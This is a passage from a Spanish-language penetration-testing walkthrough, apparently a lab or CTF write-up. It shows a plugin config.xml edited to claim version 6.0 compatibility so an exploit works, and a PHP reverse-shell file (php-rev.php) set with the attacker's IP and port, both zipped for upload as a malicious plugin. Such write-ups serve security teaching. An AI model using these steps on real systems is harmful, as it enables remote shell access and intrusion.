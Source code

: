 Editaremos el archivo `config.xml` para especificar la versión `6.0`, sino, no podremos explotar esta vulnerabilidad.

```bash
❯ cat config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>5.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
		<![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

Editaremos el archivo `php-rev.php` y estableceremos nuestra dirección IP de atacante y el puerto desde donde estaremos en escucha.

<figure><img src="../../.gitbook/assets/4079_vmware_aqNmBBlOZx.png" alt=""><figcaption></figcaption></figure>

Comrpimiremos estos nuevos archivos en un archivo llamado por ejemplo, `Gzzcoo.zip`.

```bash
❯ zip Gzzcoo.zip config.xml php-rev.php
  adding: config.xml (deflated 57%)
  adding: php-rev.php (deflated 61%)
❯ ls -l Gzzcoo.zip
.rw-rw-r-- kali kali 1.6 KB Fri Jan 24 22:57:27 2025  Gzzcoo.zip
```
